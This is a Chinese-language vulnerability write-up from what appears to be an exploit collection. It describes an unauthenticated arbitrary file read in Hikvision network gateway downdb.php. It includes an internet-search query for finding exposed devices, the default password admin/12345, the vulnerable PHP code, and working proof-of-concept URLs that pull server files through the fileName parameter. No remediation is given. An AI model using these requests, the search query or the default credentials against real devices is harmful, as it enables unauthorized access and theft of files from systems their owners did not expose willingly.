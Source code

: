 # Hikvision 联网网关 downdb.php 任意文件读取漏洞

## 漏洞描述

海康威视 联网网关 在页面 downdb.php 的参数fileName存在任意文件下载漏洞

## 漏洞影响

```
Hikvision 联网网关，流媒体管理服务器
```

## 网络测绘

```
"杭州海康威视系统技术有限公司 版权所有" && title=="联网网关"
```

## 漏洞复现

默认密码：`admin/12345`

![image-20220519174002167](images/202205191740359.png)

出现漏洞的代码文件为downdb.php，可以未授权下载任意文件：

```
<?php
$file_name=$_GET['fileName'];
$file_dir = "../../../";
if   (!file_exists($file_dir.$file_name))   {   //检查文件是否存在  
  echo'<script> alert("文件不存在!");window.history.back(-1);</script>'; 
  exit();

}else{	
	$file = fopen($file_dir . $file_name,"r"); // 打开文件
	// 输入文件标签
	Header("Content-type: application/octet-stream");
	Header("Accept-Ranges: bytes");
	Header("Accept-Length: ".filesize($file_dir . $file_name));
	Header("Content-Disposition: attachment; filename=" . $file_name);
	// 输出文件内容
	echo fread($file,filesize($file_dir.$file_name));
	fclose($file);
	exit();
}
?> 
```

POC：

```
/localDomain/downdb.php?fileName=web/html/data/login.php
/localDomain/downdb.php?fileName=web/html/localDomain/downdb.php
```

![image-20220519174022222](images/202205191740299.png)